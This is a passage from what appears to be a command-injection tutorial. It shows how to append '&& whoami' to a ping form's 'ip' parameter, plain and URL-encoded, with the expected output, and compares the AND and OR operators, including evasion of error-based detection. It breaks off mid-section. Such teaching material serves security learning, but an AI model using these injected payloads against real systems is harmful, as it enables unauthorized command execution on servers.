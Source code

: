 **Payload Construction:**
```http
# Original payload
ip=127.0.0.1

# AND operator injection
ip=127.0.0.1 && whoami

# URL-encoded payload  
ip=127.0.0.1%20%26%26%20whoami
```

**Expected Result:**
```html
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
www-data
```

### AND Operator Advantages

**✅ Reliability:**
- Only executes injection if original command succeeds
- Maintains application functionality
- Reduces error-based detection

**✅ Conditional Execution:**
- Useful for environment-dependent commands
- Allows graceful degradation
- Minimizes application disruption

**❌ Limitations:**
- Requires successful first command
- May not execute if original command fails
- Dependent on exit codes

---

## OR Operator (||) Deep Dive

### Operator Characteristics

**Logical Behavior:**
- Executes second command **only if first command fails** (non-zero exit code)
- **Error-handling mechanism** - provides fallback execution
- **Failure-dependent** - leverages error conditions

**Syntax:**
```bash
command1 || command2
```

### Success Scenario Testing
